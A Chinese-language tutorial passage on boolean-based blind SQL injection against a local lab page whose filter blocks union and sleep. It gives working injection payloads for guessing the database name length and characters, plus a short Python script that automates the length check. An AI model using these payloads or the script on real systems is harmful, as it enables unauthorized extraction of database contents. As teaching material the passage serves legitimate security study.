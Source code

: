 我们可以看到代码中还是通过`get` 方式获取`id` 的值，并且拼接到SQL语句中，但是前面做了一个正则匹配，如果检测到`union` 、`sleep` 、`benchmark` 就退出并返回`no` ，而且使用了`i` 修正符，因此会不区分大小写去文本中匹配 php，这意味着我们无法使用联合注入以及延时注入，并且是无法用大小写绕过的，后面的判断条件是如果SQL执行成功就会返回`yes` ，否则返回`no` ，这里可以判断为典型的boolean注入，我们可以使用如下过程模拟攻击者对系统发起攻击。

1. 通过 `' and length(database())>=num --+` 判断数据库名称长度，由于我们可以看到`id` 参数被`'` 包围，因此我们先闭合前面的单引号，使得后面我们的`payload` 得以正常执行。
2. 通过 `' and substr(database(),1,1)='t' --+` 逐字符判断的方式（不区分大小写）获取数据库名或通过 `' and ord(substr(database(),1,1)) = 115 --+`使用`ASCII` 转换函数`ord` 逐字符判断，这里里`substr` 是截取`database()` 的值，从第`1` 个字符开始，每次只返回`1` 个，这里不要与上面的`limit` 弄混，`limit` 是从`0` 开始排序的。

![&apos; and length\(database\(\)\)&amp;gt;=6 --+](../../../../.gitbook/assets/tu-pian%20%2818%29.png)

当我们测试数据库长度大于等于`6` 时，报了`no` ，说明数据库长度为`5` 

![&apos; and substr\(database\(\),1,1\)=&apos;u&apos; --+](../../../../.gitbook/assets/tu-pian%20%2838%29.png)

当我们测试数据库第一个字符为`u` 时，报了`yes` ，说明数据库库名第一个字母为`u` ，我们可以写一个python脚本，来代替我们实现这一繁琐的过程。

```text
import requests

url = 'http://127.0.0.1/boolean.php?id=1'
for num in range(0,10):
	length_check_poc = "' and length(database())>=" + str(num) + " --+"
	r = requests.get(url + length_check_poc)
	if r.text == 'no':
		print('[+]数据库库名长度为： ' + str(num-1))
		exit()
```

我们可以看到数据库库名长度为`5` 

![&#x5224;&#x65AD;&#x6570;&#x636E;&#x5E93;&#x5E93;&#x540D;&#x957F;&#x5EA6;](../../../../.gitbook/assets/tu-pian%20%2816%29.png)
